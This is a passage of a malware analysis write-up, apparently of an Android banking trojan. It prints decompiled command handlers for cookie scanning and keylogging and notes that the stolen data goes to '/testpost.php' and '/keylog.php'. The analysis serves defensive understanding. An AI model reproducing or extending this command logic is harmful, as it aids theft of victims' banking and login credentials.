 ```cs
                return;
            }
        }
        catch(Exception unused_ex) {
            return;
        }
    }
```

The malware will steal Cookies from the opened apps using `scancookie` using `cookieManager`. After collecting Cookies the malware will stop scan using `stopcookie` command. The malware sends the stolen Cookies to `/testpost.php`. 

```cs 
  if(Intrinsics.areEqual(s, "scancookie")) {
                        try {
                            this.scanCookie(command0, workerService0);
                        }
                        catch(Exception unused_ex) {
                        }

                        return;
                    }
if(Intrinsics.areEqual(s, "stopcookie")) {
                        AppKt.log$default(this, "stop cookie received. cleaning preferences ...", null, null, 6, null);
                        workerService0.getPreferences().currentCookie("[]");
                        return;
                    }

if(Intrinsics.areEqual(s, "stopscan")) {
                        workerService0.getPreferences().currentCookie("[]");
                        return;
                    }

```
The malware has the capabbility to store key strokes of the victim using `startkeylogs`. This helps to steal the victim's banking credentials or login credentials. The malware sends the stored keylogs to `/keylog.php`. And stop storing keylogs using `stopkeylogs`.

```cs
 if(Intrinsics.areEqual(s, "stopkeylogs")) {
                        preferences0.isKeyLoggerIsEnabled(Boolean.valueOf(false));
                        return;
                    }

if(Intrinsics.areEqual(s, "startkeylogs")) {
                        preferences0.isKeyLoggerIsEnabled(boolean0);
                        return;
                    }

```
